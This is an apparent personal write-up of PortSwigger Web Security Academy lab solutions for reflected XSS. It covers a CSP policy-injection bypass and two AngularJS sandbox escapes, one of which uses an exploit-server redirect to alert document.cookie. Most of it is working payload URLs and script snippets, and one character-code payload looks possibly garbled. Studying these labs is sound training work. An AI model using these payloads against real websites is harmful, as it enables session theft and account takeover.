 ```bash
https://ac911f2f1e2fcd15c09e7ed800cf00ce.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220522010719.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220522010626.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220522011405.png)

### Reflected XSS with AngularJS sandbox escape without strings
```bash

# This lab uses AngularJS in an unusual way where the $eval function is not available and you will be unable to use any strings in AngularJS.

# To solve the lab, perform a cross-site scripting attack that escapes the sandbox and executes the alert function without using the $eval function.

[123]|orderBy:'Some string'

Enter into search:

https://acf61f0a1e6e5c56c08e03a100330080.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,66,97,108,122,114,110,28,48,41)=1

```

### Reflected XSS with AngularJS sandbox escape and CSP
```bash

# This lab uses CSP and AngularJS.

# To solve the lab, perform a cross-site scripting attack that bypasses CSP, escapes the AngularJS sandbox, and alerts document.cookie.

"Search term cannot exceed 70 characters"

Go to: "Exploit server"

<script>
location='https://ac361f8b1e9bcd52c0d388bf00a60052.web-security-academy.net/?search=%3cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>

// or // decoded

<script>
location='https://ac361f8b1e9bcd52c0d388bf00a60052.web-security-academy.net/?search=<input id=x ng-focus=$event.path|orderBy:'(z=alert)(document.cookie)'>#x';
</script>

```

#hacking
